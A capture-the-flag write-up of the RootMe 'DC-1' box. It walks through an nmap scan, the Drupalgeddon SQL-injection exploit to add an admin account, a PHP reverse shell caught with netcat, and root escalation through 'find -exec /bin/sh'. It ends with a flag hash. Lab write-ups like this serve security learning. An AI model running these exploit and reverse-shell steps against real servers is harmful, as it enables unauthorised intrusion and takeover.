



# DC-1

Author: Ewaël

**DC-1** is a RootMe box by DCAU.

`nslookup ctf27.root-me.org` gives me the box IP so I can use `nmap -sC -sV -oN nmap 163.172.228.194 -v -A` that shows me port 80 and 22 are open. Let's check the website first.



The first thing I do is searching for Drupal exploits to bypass the authentification. I try to use the CVE-2019-6340 following [https://www.ambionics.io/blog/drupal8-rce](https://www.ambionics.io/blog/drupal8-rce) but it fails because I forget to check the Drupal version. I find it in the source code: Drupal 7.

```
$ searchsploit drupal | grep 7
...
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                  | php/webapps/34992.py
...
```

This is the exploit I decide to use in order to access site as an admin user the exploit adds. To do so, I use

```
python 34992.py -t http://163.172.228.194 -u test -p test
```

I can now login with `test:test`.



I find a `flag3` file:

```
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

I decide to keep this hint because it looks like it could refer to a possible privilege escalation using `find`. My next idea is to upload a reverse shell on the site as a new content. I copy the one from `/usr/share/laudanum/php/php-reverse-shell.php` and upload it but it does not work because it is not interpreted as php.

After some researches I find this link [https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell](https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell) which helps me understand how to upload php code.



I use the `Preview` button after launching `nc -lvnp 4444` and get my reverse shell on host as `www-data`. First thing I do is `python -c 'import pty; pty.spawn("/bin/bash")'` to have a nicer shell. I find a new hint:

```
$ cat /home/flag4/flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

To access `/passwd` I need to be root. After moving around in `/var/www` I remember the first hint about `find`. Following [https://gtfobins.github.io](https://gtfobins.github.io) I use:

```
find . / -exec /bin/sh \;
```

Now that I am root I can get the password:

`897f8695083ce0e82c09a79239afc548`
